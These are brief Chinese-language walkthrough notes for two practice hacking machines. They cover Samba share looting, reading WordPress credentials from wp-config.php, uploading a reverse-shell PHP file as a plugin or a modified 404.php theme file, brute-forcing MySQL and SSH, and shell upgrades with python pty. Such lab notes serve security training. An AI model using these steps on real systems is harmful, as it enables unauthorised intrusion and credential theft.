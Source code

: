 



---



## lazy靶机

```
80 web 捕捉关键字 mysql
phpmyadmin
wordpress togie

139 445 139和445的Samba后门漏洞
smbclient –L //192.168.1.145
smbclient '\\192.168.231.132\share$' #进入指定用户
ls
mget *.*

wordpress
wordpress配置文件 wp-config.php 账号密码
后台路径 /wordpress/wp-admin 

上传插件处 反弹shell pentestmonkey网站
gunzip 解压
tar xvf .tar

拿shell点 
zip sh.zip shell.php
上传插件位置 shell.php 要用plugein 注释填充 上传插件要 说未能成功解压但是已经上传了 目录
/wordpress/wp-content/plugins/sh/shell.php
编辑不同主题的404.php  目录 /wordpress/wp-content/uploads/xx/404.php

dpkg -l | grep python
python -c "import pty;pty.spawn('/bin/bash')"

cd /home ls查看用户
sudo -l
```



---



## dpwwn01

```
端口没结果、目录爆破没结果

密码爆破
优先 3306 mysql root 空 有默认用户
其次 ssh 爆破

查看权限 sudo -l 无
有个sh脚本 可能自动任务执行 需要等他自己执行
cat /etc/crontab
export TERM=xterm-color 完善交互性
python -c "import pty;pty.spawn('/bin/bash')"

```
